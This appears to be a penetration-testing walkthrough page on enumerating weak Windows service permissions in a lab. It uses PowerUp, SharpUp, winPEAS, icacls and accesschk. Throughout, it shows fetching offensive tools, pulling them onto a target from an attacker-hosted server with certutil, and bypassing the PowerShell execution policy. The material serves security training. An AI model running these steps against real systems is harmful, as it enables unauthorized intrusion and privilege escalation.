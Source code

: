 ```yaml
---
legal-banner: true
---
```


### **ENUMERATING SERVICES PERMISSION WITH POWERUP**

1.  If you don’t already have PowerUp, you can get PowerUp.ps1 using the following command:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`  
    
    ![](../../../../img/Windows-Environment/25.png)
    
2.  Host the PowerUp.ps1 Script Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/26.png)
    
3.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/PowerUp.ps1 PowerUp.ps1`  
    
    ![](../../../../img/Windows-Environment/27.png)
    
4.  To bypass the PowerShell execution policy and execute the PowerUp.ps1 in a single line:  
    `powershell -ep bypass -c "& {.\PowerUp.ps1}"`  
    
    ![](../../../../img/Windows-Environment/28.png)
    

### **ENUMERATING SERVICES PERMISSION WITH SHARPUP**

SharpUp is a free and open-source tool that can check for weaknesses in Windows services. It can scan for a variety of vulnerabilities related to standard privesc techniques.

1.  If you don’t already have SharpUp, you can get SharpUp.exe using the following command:  
    `wget https://raw.githubusercontent.com/r3motecontrol/Ghostpack-CompiledBinaries/master/SharpUp.exe`  
    
    ![](../../../../img/Windows-Environment/29.png)
    
2.  Host the Powershell Script Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/30.png)
    
3.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/SharpUp.exe SharpUp.exe`  
    
    ![](../../../../img/Windows-Environment/31.png)
    
4.  To run all the checks, execute the command audit. The tool has identified the filepermsvc service as vulnerable to modification, as shown below.  
    `.\SharpUp.exe audit`  
    
    ![](../../../../img/Windows-Environment/32.png)
    

### **ENUMERATING SERVICES PERMISSION WITH WINPEAS**

1.  Since the target runs a 64-bit OS, we can send 64-bit winPEAS via a Python HTTP server..  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/33.png)

    **NOTE:** We can identify that the target machine has a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to target machine Using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/winPEASx64.exe winPEASx64.exe`  
    
    ![](../../../../img/Windows-Environment/34.png)
    
3.  Now, all we need to do is run winPEAS to search for weak service permissions  
    `.\winPEASx64.exe`  

    ![](../../../../img/Windows-Environment/35.png)

    **NOTE:** The Services Information section in winPEAS provides a comprehensive list of all services, along with their configurations and potential security issues.
    

### **ENUMERATING WEAK SERVICE FILE PERMISSIONS (ICACLS)**

1.  To verify folder permissions with icacls, it's important to understand the permissions.  
    Check [Microsoft documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) to learn more about permissions.  
    
    ![](../../../../img/Windows-Environment/36.png)
    
2.  Lets view the permissions on the c:\\Program Files\\File folder  
    `icacls "C:\Program Files\File Permissions Service"`  
    
    ![](../../../../img/Windows-Environment/37.png)

    **NOTE:** This shows that BUILTIN\\Users have (RX) Read & Execute permissions for this folder.
    
3.  we can check permission of binary it self  
    `icacls "C:\Program Files\File Permissions Service\filepermservice.exe"`  
    
    ![](../../../../img/Windows-Environment/38.png)

    **NOTE:** This shows that Everyone has (F) Full Control permissions for C:\\Program Files\\File Permissions Service\\filepermservice.exe, allowing any user to read, execute, modify, or delete the service binary.
    

### **ENUMERATING WEAK SERVICE FILE PERMISSIONS (ACCESSCHK)**

1.  If you don't have the Sysinternals Suite on your machine, you can download it from the official [Microsoft Website](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

    ![](../../../../img/Windows-Environment/39.png)

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/accesschk64.exe accesschk64.exe`  
    
    ![](../../../../img/Windows-Environment/40.png)

    **NOTE:** With accesschk now on the target system, we can use the following command to enumerate the folder permissions
    
3.  Let's view the permissions on the C:\\Program Files\\File Permissions Service\\filepermservice.exe  
    `.\accesschk64.exe -wvu "C:\Program Files\File Permissions Service\filepermservice.exe" -accepteula`  
    
    ![](../../../../img/Windows-Environment/41.png)

    **NOTE:** This shows that Everyone has (RW) Read and Write permissions for C:\\Program Files\\File Permissions Service\\filepermservice.exe, granting any user full access to read, execute, modify, or delete the service binary.
